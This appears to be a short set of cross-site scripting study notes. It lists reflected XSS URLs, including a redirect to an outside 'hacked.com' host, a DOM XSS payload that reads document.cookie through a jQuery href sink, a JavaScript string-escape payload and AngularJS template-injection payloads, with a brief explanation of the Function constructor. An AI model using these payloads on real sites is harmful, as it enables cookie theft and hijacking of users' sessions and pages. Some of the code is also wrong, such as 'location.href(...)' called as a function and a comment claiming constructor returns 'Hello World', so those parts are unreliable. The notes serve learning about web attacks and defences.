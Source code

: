 ### Form
this url
```
http://www.example.com/test_form.php/%22%3E%3Cscript%3Ealert('hacked')%3C/script%3E

#or

http://www.example.com/test_form.php/<script>location.href('http://www.hacked.com')</script>
```
translated to:
```
<form method="post" action="test_form.php/"><script>alert('hacked')</script>
```




### DOM XSS in jQuery anchor href attribute sink using `location.search`
```
<a id="backLink" href="/">Back</a>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

original: https://example.path/feedback?returnPath=/
modified: https://example.path/feedback?returnPath=javascript:alert(document.cookie)



### escape javaScript
`';alert('THM');//`



## Angular
`{{$on.constructor('alert(1)')()}}`
`{{$eval.constructor('alert(1)')()}}`
`{{$resume.constructor('alert(1)')()}}`
- The constructor data property of an Object instance returns a reference to the constructor function that created the instance object. <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor>

Explanation:
`Function('console.log("Hello World")')(); // anonymous function made using the Function constructor`

```
function test() {
	console.log('Hello World');
}

console.log(test.constructor); // returns "Hello World"

let mySecondFunction = test.constructor('console.log("Hello World 2!")');
mySecondFunction(); // returns "Hello World 2!"
```

